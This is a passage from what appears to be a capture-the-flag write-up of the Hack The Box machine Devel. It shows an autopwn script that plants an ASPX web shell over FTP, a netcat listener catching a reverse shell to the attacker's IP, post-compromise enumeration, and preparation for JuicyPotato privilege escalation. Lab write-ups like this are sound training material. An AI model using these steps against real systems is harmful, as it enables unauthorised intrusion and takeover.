 > **Event Validation** ensures that events raised on the client originate from the controls rendered by **ASP.NET**.

```bash
http://10.129.97.120/cmdasp.aspx
# __VIEWSTATE   __EVENTVALIDATION

python3 autopwn_ftp.py 10.129.97.120 test test
  l
  print(r.text)
  re.findall(r'__VIEWSTATE" value="(.*?)"', r.text)
  re.findall(r'__VIEWSTATE" value="(.*?)"', r.text)[0]
  re.findall(r'__EVENTVALIDATION" value="(.*?)"', r.text)[0]

nvim autopwn_ftp.py
sudo rlwrap -cAr nc -nlvp 443
python3 autopwn_ftp.py 10.129.97.120 10.10.14.77 443
```

<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the first system enumeration tasks, I check what privileges and permissions the compromised user has, he has the **SeImpersonatePrivilege** enabled so I think about the **ohpe** **[JuicyPotato](https://github.com/ohpe/juicy-potato){:target="_blank"}** exploit. Unfortunately I can't get the binary to work once I transfer it to the target machine. At the beginning of the post is that if it does not work and one is stubborn in trying to exploit a vulnerability (<ins>that's what happened to me</ins>), one can lose a lot of time and not understand that there may be other ways and you can continue to enumerate.

> **Victime Machine**:

```cmd
whoami
hostname
ipconfig
whoami /priv
whoami /all
# SeImpersonatePrivilege      JuicyPotato.exe
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/JuicyPotato.exe ./JP.exe
python3 -m http.server 80
```
